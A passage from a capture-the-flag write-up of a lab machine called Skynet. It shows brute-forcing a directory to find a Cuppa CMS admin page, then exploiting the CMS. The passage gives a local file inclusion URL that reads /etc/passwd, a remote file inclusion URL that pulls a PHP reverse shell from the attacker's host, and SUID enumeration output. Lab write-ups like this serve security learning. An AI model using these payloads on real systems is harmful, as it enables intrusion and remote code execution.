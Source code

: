 I started directory or files bruteforcing on this directory and found `/administrator` page that indicates a <mark style="background: #D2B3FFA6;">cuppa CMS</mark> .

![Image](Pasted%20image%2020240411155549.png)
_Feroxbuster Scan result_

![Image](Pasted%20image%2020240411162111.png)
_Cuppa CMS Login Page_

I recon further on this CMS page about its vulnerability and I got this ⏩
https://www.exploit-db.com/exploits/25971 .

I tired it and got <span style="color:#f04276">LFI</span> by accessing `/etc/passwd` content ⏬

`http://10.10.166.102/45........./administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
![Image](Pasted%20image%2020240411162418.png)
_/etc/passwd content access through LFI_

Now lets try RFI with a simple reverse shell file from pentestmonkey ⏬

`http://10.10.166.102/45........../administrator/alerts/alertConfigField.php?urlConfig=http://10.11.75.200/php_reverse_shell.php`

![Image](Pasted%20image%2020240411162942.png)
_RFI method used here as the file got downloaded on the machine and executed as a result I got the reverse shell_

I checked SUIDs binaries and got this ⏬

```bash
www-data@skynet:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/sbin/mount.cifs
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/bin/ping6
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
www-data@skynet:/$
```
{: .nolineno}
{: .nolineno}
